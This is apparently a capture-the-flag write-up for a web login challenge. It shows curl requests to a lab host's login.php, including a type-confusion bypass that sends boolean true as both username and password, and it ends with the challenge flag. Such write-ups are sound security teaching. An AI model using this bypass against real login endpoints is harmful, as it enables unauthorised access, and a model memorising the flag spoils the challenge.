


# Visiting the website

There is a login page when visiting the site.



# Login form

There is northing else here, just a simple form that is sent via javascript, sending a json to `login.php`.

```bash
curl -v 'http://10.10.100.112:48080/login.php' -X POST --data-raw '{"username": "administrator", "password": "admin"}'
```

# Type confusion

Contrary to the description, the username is not `administrator`.

Sending different type in place of both parameter, boolean true, is bypassing the login screen, and handling out the flag.

```bash
curl -v 'http://10.10.100.112:48080/login.php' -X POST --data-raw '{"username": true, "password": true}'
```



# Flag
`CQ25{N0t_MY_TYP3}`